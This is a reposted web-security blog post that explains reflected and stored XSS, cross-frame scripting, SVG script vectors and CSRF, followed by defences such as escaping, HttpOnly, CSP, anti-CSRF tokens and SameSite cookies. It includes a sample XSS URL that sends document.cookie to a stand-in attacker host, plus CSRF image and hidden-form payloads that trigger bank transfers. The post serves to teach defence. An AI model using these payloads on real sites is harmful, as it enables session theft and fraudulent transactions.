 ```yaml
---
layout: post
title: "Prevent XSS and CSRF attacks on your website"
date: 2019-08-19 00:00:00 +0300
description: "what are xss and csrf attacks and how can we prevent them?" # Add post description (optional)
img: prevent-xss-csrf.png # Add image post (optional)
fig-caption: none # Add figcaption (optional)
tags: [csrf,xss,browser,attack,xfs,security,web,hacking,cookies,website,svg]
categories: [Security]
---
```


### 1. **What is XSS: Cross-site scripting?**

In case of XSS, the attacker makes the victim's browser execute a script (mostly JavaScript) that has been injected by the attacker while visiting a trusted web site. The attacker has several ways of injecting the JavaScript into a web site that the victim trusts.

XSS doesn't need an authenticated session and can be exploited when the vulnerable website doesn't do the basics of validating or escaping input.

When the server doesn't validate or escape input as a primary control, an attacker can send inputs via request parameters or any kind of client side input fields (which can be cookies, form fields or url params). These can be written back to screen, persisted in database or executed remotely.

Be aware using shorten URLs as you don't know where they can lead! First check where the hidden link leads using unshorten.it. After receiving the final link, check it out on the VirusTotal website. It is also suggested to have it as a browser extension.

### 2. **Reflected XSS (aka Non-Persistent or Type II XSS)**

Reflected attacks are those where the malicious script is reflected by a web server and then executed by the the web browser. In this type of attack a user is tricked into clicking a link, or filling in a form, that has the script hidden in it. This can be achieved by sending an email, or posting the link on a forum.

As the domain that the victim can see in the URL is well known and trusted, the victim won't expect any harm behind it. When this is submitted to the server it will be rejected and reflected back to the browser. Many servers will send the input back in text format so the browser can display the input that was rejected. If this text is a valid script then the browser will execute it as it is coming from a trusted source. The attacker could use the victim's CPU to calculate bitcoins in the browser or could steal the victim's cookie.

```html
https://google.com?query=<script>new Image().src="http://attackerurl.org/storecookie?cookie="+document.cookie;</script>
```
![reflected xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-1.png)

### 2. **Stored XSS (aka Persistent or Type I XSS)**

Besides injecting the script using query parameters, the attacker may also inject the script persistenly into a web site's storage. The storage can be in a database, in a web page component like a message forum, visitor log, comment field, or other element that goes to make up a page to deliver to a user. In case, a forum that doesn't validate the user's input, website could be compromissed by posting something that contains the malicious script. The malicious script is delivered along with the normal web content and the client executes it. Every user of the forum that reads the attacker's post will become a victim.

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-2.png)

### 3. **What is XFS: Cross Frame Scripting?**

Cross-Frame Scripting (XFS) is an attack that combines malicious JavaScript with an iframe that loads a legitimate page in an effort to steal data from an unsuspecting user. This attack is usually only successful when combined with social engineering. An example would consist of an attacker convincing the user to navigate to a web page the attacker controls. The attacker's page then loads malicious JavaScript and an HTML iframe pointing to a legitimate site. Once the user enters credentials into the legitimate site within the iframe, the malicious JavaScript steals the keystrokes.

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a <frame>, <iframe>, <embed> or <object>. Sites can use this to avoid clickjacking attacks, by ensuring that their content is not embedded into other sites.

```html
X-Frame-Options: deny
X-Frame-Options: sameorigin
X-Frame-Options: allow-from https://example.com/
```

### 3. **JavaScript in image tags**

Directly injecting JavaScript code in the source attribute of <img> tag is no longer possible on modern browsers.

But SVG is an XML based vector graphic format, therefore it invokes the XML parser in the browser. Moreover, <script> tag is allowed in the SVG, so JavaScript can be embed directly into SVG.

Browsers that support SVG inside <img> tags do not support scripting inside the context. **But you should not  use SVG inside <embed> or <object> tags where scripting is supported by browsers!**

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-3.png)

Allowing SVG inside <img>may be dangerous when:

* An XML parser is used to parse the SVG, whether it is inside the <img> or <object> tag. The parser is certainly tweaked with some parameters to ignore <script> tags in the <img> context. Yet, that is quite ugly, it is blacklisting a tag in a certain context. And blacklisting is poor security.
* <script> is not the only way to achieve execution context in SVG, there are also the onmouseover (and family) events present in SVG. This is again tricky to blacklist.
* The XML parser in browsers did suffer from problems in the past, notable with XML comments around script blocks. SVG may present similar problems.
* SVG has full support for XML namespaces. xlink:href is a completely valid construct in SVG and the browser inside the XML parser context will likely follow it.
Therefore, SVG opens several possible vectors to achieve execution context. And moreover, it is a relatively new technology and therefore not well hardened.

### 3. **What is CSRF: Cross-site request forgery?**

In a CSRF attack, the attacker tries to force/trick you into making a request which you did not intend, making use of the existing victim's context, such as cookies. Every time you interact with website, its server checks the cookie you send with the request so it knows it's you.

The level of the attack is based upon the level of privileges that the victim possessed. Because attacker will use the authentication that has gained in the current session to do the malicious task. This is the reason why this attack termed as Session Riding too.

#### **Using a GET request (rare case)**

CSRF happens in authenticated sessions when the server trusts the user/browser. Let's consider an example when you are logged in into your banking site. An attacker can place a malicious link embedded in another link or zero byte image which can be like:

```html
<img src=yourbanking.com/transfer.do?to_account={attackers_account}&amt=2500>
```
Now, in the background transfer can happen though you clicked this link (of course, if your banking uses GET request for such actions without any confirmation). Depending on the vulnerable web site, using CSRF, attackers can also change your credentials or user profile properties.

#### **Using a POST request (common and most popular case)**

This attack requires the user to click the form button on hacker's website, then the malicious page could just as easily send the request by submitting the form.

```html
<h1>You Are a Winner!</h1>
<form action="http://yourbanking.com/api/account/transfer" method="post">
    <input type=hidden name=to_account value="attacker_id" />
    <input type=hidden name=amount value="1000000" />
    <input type=submit value="Click me to get your reward" />
</form>
```
After submitting the form user could figure out what happened, but it could be too late to revert or discard these changes.

![using a POST request ]({{site.baseurl}}/assets/img/prevent-xss-csrf-4.png)

Moreover, using SSL does not prevent a CSRF attack, because the malicious site can send an "https://" request. Typically, CSRF attacks are possible against web sites that use cookies for authentication, because browsers send all relevant cookies to the destination web site.

### 5. **Difference between XSS and CSRF**

Both these attacks seems to be very similar, as they are client-side attacks and doing quite similar things, enforcing some form of user activity (e.g. clicking a link or visiting a website).

In a cross-site scripting (XSS) attack, the attacker makes you involuntarily execute client-side code, most likely Javascript. In a cross-site request forgery (CSRF) attack, the attacker manipulates you to making a melicoius request to the server which you did not intend. This could be sending you a link that makes you involuntarily perform some action.

XSS is generally more powerful than CSRF because it usually allows the execution of arbitrary script code while CSRF is restricted to a particular action (e.g. changing the password). A successful XSS attack also effectively bypasses all anti-CSRF measures.

### 6. **Protect your website**

#### **Protect against XSS attack**

##### **Escape special characters, validate and sanitize inputs**

> Expect any untrusted data to be malicious. What's untrusted data? Anything that originates from outside the system and you don't have absolute control over so that includes form data, query strings, cookies, other request headers, data from other systems (i.e. from web services) and basically anything that you can't be 100% confident doesn't contain evil things.

> Troy Hunt

**Validating input** is the process of ensuring an application is rendering the correct data and preventing malicious data from doing harm to the site, database, and users. Input validation is especially helpful and good at preventing XSS in forms, as it prevents a user from adding special characters into the fields, instead refusing the request.

**Sanitizing data** is a strong defense, but should not be used alone to battle XSS attacks. Sanitizing user input is especially helpful on sites that allow HTML markup, to ensure data received can do no harm to users as well as your database by scrubbing the data clean of potentially harmful markup, changing unacceptable user input to an acceptable format.

**Escaping data** means taking the data an application has received and ensuring it’s secure before rendering it for the end user. By escaping user input, key characters in the data received by a web page will be prevented from being interpreted in any malicious way. In essence, you're censoring the data your web page receives in a way that will disallow the characters – especially < and > characters – from being rendered, which otherwise could cause harm to the application and/or users. If your page doesn’t allow users to add their own code to the page, a good rule of thumb is to then escape any and all HTML, URL, and JavaScript entities.

##### **HttpOnly flag for cookies**

The purpose of the HttpOnly flag is to make the value of the cookie unavailable from JavaScript, so that it can not be stolen if there is a XSS vulnerability.

Any attempt to access the cookie from client script is strictly forbidden. Of course, this presumes you have:

A modern web browser
A browser that actually implements HttpOnly correctly
The good news is that most modern browsers do support the HttpOnly flag. Regardless, HttpOnly cookies are a great idea, and properly implemented, make common XSS attacks much harder to pull off.

HttpOnly cookies don't make you immune from XSS cookie theft, but they raise the bar considerably. Anyway, a "set it and forget it" setting is pretty secure as all modern browsers implemented client-side HttpOnly cookie security correctly.

##### **Security headers**

The HTTP Content-Security-Policy response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks (XSS).

```html
Content-Security-Policy: default-src https:; script-src https: 'unsafe-eval' 'unsafe-inline'; style-src https: 'unsafe-inline'; img-src https: data:; font-src https: data:; report-uri /csp-report
```
The X-XSS-Protection header is designed to enable the cross-site scripting (XSS) filter built into modern web browsers. This is usually enabled by default, but using it will enforce it.

```html
X-XSS-Protection: 1; mode=block
```

A 0 value disables the XSS Filter. A 1 value enables the XSS Filter. If a cross-site scripting attack is detected, in order to stop the attack, the browser will sanitize the page.

A 1; mode=block value also enables the XSS Filter and rather than sanitize the page, when an XSS attack is detected, the browser will prevent rendering of the page.

#### **Protect against CSRF attack**

##### **Using CSRF-token**

Because of your session is active in the browser and it has your session id, CSRF attack can happend. This is the reason the most popular CSRF protection is having another server supplied unique token generated and appended in the request as a hidden value in every state changing form which is present on the web application. This token, called a CSRF Token or a Synchronizer Token. This unique token is not something which is known to the browser like session id.

Instead of putting the anti-CSRF token in the cookie, the server needs to put it as a hidden parameter in a form. For every request involving some sensitive action, the browser will send this token also along with the request and the server, before performing the action, would verify if the token is the one that it had sent to the browser or not. This additional validation at server will make sure that the attacker manipulated link.

This protects the form against CSRF attacks, because an attacker has no way of performing this sensitive action on behalf of the user, as forging a request will also need to guess the anti-CSRF token. Unless an attacker won't successfully trick a victim into sending a valid request or somehow finds out the random anti-CSRF token itself.

**_This token should be invalidated after some time and after the user logs out. The token have to be unique per action and have to be valid only once. Never share tokens via URLs._**

##### **Using Same-site attribute for cookies**

CSRF attacks are only possible since Cookies are always sent with any requests that are sent to a particular origin (domain and path), which is related to that Cookie. Due to the nature of a CSRF attack, a flag can be set against a Cookie, tuning it into a same-site Cookie. A same-site Cookie is a Cookie which can only be sent, if the request is being made from the same origin that is related to the Cookie being sent. The Cookie and the page from where the request is being made, are considered to have the same origin if the protocol, port (if applicable) and host is the same for both.

When another site tries to request something from the web application, the cookie is not sent. This effectively makes CSRF impossible, because an attacker can not use a user's session from his site anymore.

There are two possible values for the same-site attribute:

* Strict: the cookie is withheld with any cross-site usage. Even when the user follows a link to another website the cookie is not sent.
* Lax: some cross-site usage is allowed. Specifically, if the request is a GET request and the request is top-level. Top-level means that the URL in the address bar changes because of this navigation. This is not the case for iframes, images or XMLHttpRequests.

| request type | html code example | cookie type |
|:------------------:|:--------------------:|:---------------------:|
| link | &lt;a href="..."> | normal, lax |
| prerender | &lt;link rel="prerender" href="..." /> | normal, lax |
| form GET | <form action="..."> | normal, lax |
| form POST | <form method="post" action="..."> | normal |
| iframe | <iframe src=...> | normal |
| image | <img src=...> | normal |
| AJAX | fetch('...') (JavaScript) | normal |

This table shows what cookies are sent with cross-origin requests. As you can see cookies without a same-site attribute (indicated by "normal") are always sent. **Strict cookies are never sent. Lax cookies are only send with a top-level get request.**

As you would expect strict mode gives better security, but breaks some functionality. Links to protected resources won't work from other sites. Even if you are logged in and have access to some resource, your strict cookies won't be sent when coming from another site. With lax mode, this still works, while providing decent security by blocking cross-site post requests.

The same-site attribute is a good method to protect against CSRF attacks, because it seems to the attacker as though you are no longer logged in to the website under attack.

##### **Using Referer, Origin, Host and X-Requested-With headers**

X-Requested-With: XMLHttpRequest HTTP header can prevent CSRF attacks because this header cannot be added to the AJAX request cross domain without the consent of the server via CORS. Without CORS it is not possible to add X-Requested-With to a cross domain XHR request. Only the following headers are allowed cross domain:

* Accept
* Accept-Language
* Content-Language
* Last-Event-ID
* Content-Type

Referer header tells server from where the request has originated. If the request is coming from unauthorized domain, then Referer header will contain that value and server can simply reject that request.

_These headers are great to additional check against CSRF attack, but do not rely only on them._

**Misunderstanding the Same Origin Policy (aka SOP) and what Cross-origin resource sharing (aka CORS) brings to the table**

All the SOP does, is prevent the response from being read by another domain (aka origin). This is irrelevant to whether a CSRF attack is successful or not. The only time the SOP comes into play with CSRF is to prevent any token from being read by a different domain.

CORS does not increase security, it simply allows some exceptions to take place. Some browsers with partial CORS support allow cross site XHR requests (e.g. IE 10 and earlier), however they do not allow custom headers to be appended. In CORS supported browsers the Origin header cannot be set, preventing an attacker from spoofing this.

All of the above has nothing to do with forged requests coming directly from an attacker. Remember, the attacker needs to use the victim's browser for their attack. They need the browser to automatically send its cookies. This cannot be achieved by a direct curl request as this would only be authenticating the attacker in this type of attack scenario (the category known as "client-side attacks").

### **Conclusion**

Both attacks have in common that they are client-side attacks and need some action of the end user, such as clicking on a link or visiting a web site. XSS executes a malicious script in your browser, CSRF sends a malicious request on your behalf.

###### **本文转载自Sergey Podgornyy的[《Prevent XSS and CSRF attacks on your website》](https://blog.larapulse.com/security/prevent-xss-csrf-attacks){:target="_blank"}**
